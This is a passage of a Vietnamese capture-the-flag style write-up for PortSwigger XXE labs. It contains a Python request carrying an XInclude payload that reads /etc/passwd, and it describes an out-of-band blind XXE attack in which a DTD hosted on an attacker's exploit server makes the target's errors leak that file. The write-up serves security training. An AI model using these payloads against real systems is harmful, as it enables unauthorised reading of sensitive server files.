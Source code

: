 ```python
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1'''



response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```

 [image](https://hackmd.io/_uploads/SkJuSYenT.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

 [image](https://hackmd.io/_uploads/SkxirFl3p.png)

## 9. Lab: Exploiting blind XXE to retrieve data via error messages

link: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

### Đề bài

 [image](https://hackmd.io/_uploads/r1ftDYenp.png)

### Phân tích

- Chức năng "Check stock" của trang web thực hiện quá trình phân tích cú pháp dữ liệu XML nhưng không hiển thị bất kỳ kết quả nào ra giao diện. Tuy nhiên, khi quá trình phân tích gặp lỗi, các thông báo trả về chứa nội dung nhạy cảm. Để hoàn thành bài lab, chúng ta cần kích hoạt các thông báo lỗi nhằm đọc nội dung tệp tin /etc/passwd.
- Trong dữ liệu POST không được phép chứa ký tự `&`
   [image](https://hackmd.io/_uploads/r10F_Fg2T.png)

- Do đó chúng ta không thể tự định nghĩa các entities thông thường. Tuy nhiên, ký tự % không bị filter:

 [image](https://hackmd.io/_uploads/BybaOFx26.png)

### Khai thác

- ta sẽ host 1 file DTD tại đường dẫn `http://<EXPLOIT-SERVER>/exploit.dtd`. Mục tiêu bài này sẽ lấy được nội dung file `/etc/passwd` thông qua lỗi trả về. Do đó, `%error;` sẽ chứa nội dung một file không tồn tại, cụ thể là nội dung file /etc/passwd thông qua %file;. Khi đó, nếu server truy cập đường dẫn chứa file DTD này, server sẽ không có file `/<nội dung /etc/passwd>` và trả lỗi chứa nội dung `/etc/passwd`.

 [image](https://hackmd.io/_uploads/Bki6YYg3T.png)

 [image](https://hackmd.io/_uploads/ByBB5Fxha.png)
